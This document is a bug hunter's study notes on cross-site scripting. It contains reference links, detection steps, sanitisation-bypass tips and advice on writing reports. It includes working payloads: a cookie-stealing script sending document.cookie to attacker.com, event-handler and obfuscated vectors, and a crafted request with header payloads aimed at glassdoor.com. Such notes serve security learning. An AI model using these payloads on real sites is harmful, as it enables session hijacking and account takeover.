 # Further Learning
> https://aszx87410.github.io/beyond-xss/en/
> https://thespanner.co.uk/2009/03/20/html5-xss
> https://thespanner.co.uk/2008/12/01/location-based-xss-attacks
> https://thespanner.co.uk/2009/11/23/bypassing-csp-for-fun-no-profit
> https://thespanner.co.uk/

> https://sirdarckcat.blogspot.com/2008/10/about-css-attacks.html
> https://blog.jeremiahgrossman.com/2009/06/results-unicode-leftright-pointing.html

<pre lang="javascript"> &lt;video src=1 onerror=alert(1)&gt; &lt;audio src=1 onerror=alert(1)&gt; </pre>
 

## Account Take Over
> https://xss.example.com/?input=<script>document.location="http://attacker.com/index.php?cookie=" + document.cookie;</script>

# Identifying XSS
1. Look for input fields
2. Type in the payload. Simple payloads prolly won't work bc of sanitation
3. More than <script> tags
- test on HTML tag attributes like onload, onclick, onerror
- HTTP URL schemes like javascript: and data:
- with data: you can pass a base64 encode of the script payload
- like data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"
- or just pass the script 

# XSS Validation
## Client-Side and Server side
A Web app can use both, determine 
where the validations and sanitation are applied
and mutate the payload accordingly

Read Open Source Frameworks for static analysis
of the XSS Prevention implementations

Reading source code can help you detect 
if there is a possibility of XSS like DOM-XSS

Look at cookie implementation to see how you can
escalate an XSS by stealing user cookies 
check httponly flag

> GET /member/home/index.htm/x.jpeg?t=2021111121 HTTP/2
```
Host: www.glassdoor.com
X-Forwarded-For: xss 
X-Forwarded-For: xss><svg/onload=globalThis[`al`+/ert/.source]`1`// 
X-Forwarded-For: > 
Cookie: gdId=xss</script%20
```

# Cheatsheet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet

Everything about web application firewalls (WAFs) from a security perspective. 🔥
https://github.com/0xInfection/Awesome-WAF

Payloads All The Things
A list of useful payloads and bypasses for Web Application Security. Feel free to improve with your payloads and techniques !
https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/#other-ways

https://html5sec.org/

polyglot
https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/

IoT
https://github.com/OWASP/IoTGoat/

https://cheatsheetseries.owasp.org/index.html

XSS Filter Evasion Cheat Sheet
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

On ruling out false XSS with innerHTML 
TIP: Scan source code for how innerHTML is used. 

HTML specifies that a <script> tag inserted with innerHTML should not execute.
https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0

However, there are ways to execute JavaScript without using <script> elements, 
so there is still a security risk whenever you use innerHTML to set strings 
over which you have no control. For example:
const name = "<img src='x' onerror='alert(1)'>";
el.innerHTML = name; // shows the alert

Test image uploads with image URL in URL

====================
 On report writing |
====================
For that reason, it is recommended that instead of innerHTML you use:
Node.textContent when inserting plain text, as this inserts it as raw text rather than parsing it as HTML.
https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations

XSS’s impact depends on a variety of factors: whether it’s stored or
reflected, whether cookies are accessible, where the payload executes etc
Despite the potential damage XSS can cause on a site, fixing XSS vulnerabilities is often easy

When they say they have fixed your issue, please test again to confirm that it has really be fixed. 
if it isn't fixed properly, point out to them to make a proper complete fix.

XSS Polymorphism 
- Changing your payload based of sanitation information received from the target
- if your payload is getting sanitized, 
how do you by pass the sanitization?
Under the sanitization and craft a clever payload 
that passes the sanitation
- maybe pass malformed html/js payloads
- see https://klikki.fi/yahoo-mail-stored-xss/
- see https://mahmoudsec.blogspot.com/2015/09/how-i-found-xss-vulnerability-in-google.html


There are HTML attributes that executes javascript
For example, these HTML
Event Attributes that execute JavaScript being outside a <script> tag:
<b onmouseover=alert('XSS')>Click Me!</b>
<svg onload=alert(1)>
<body onload="alert('XSS')">
<img src="http://test.cyberspacekittens.com"
onerror=alert(document.cookie);>

See https://html5sec.org/
Turning HTML Injection into XSS
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>


BROWSERS HACKERS HANDBOOK
URL OBFUSCATION
The following are ways in which to obfuscate a URL:
■ URL Shorteners
■ URL Redirectors
■ URL- or ASCII-encoded characters
■ Adding a number of extra, irrelevant query parameters with the malicious
payload either in the middle or toward the end
■ Using the @ symbol within a URL to add fake domain content
■ Converting the hostname into an integer, for example http://3409677458
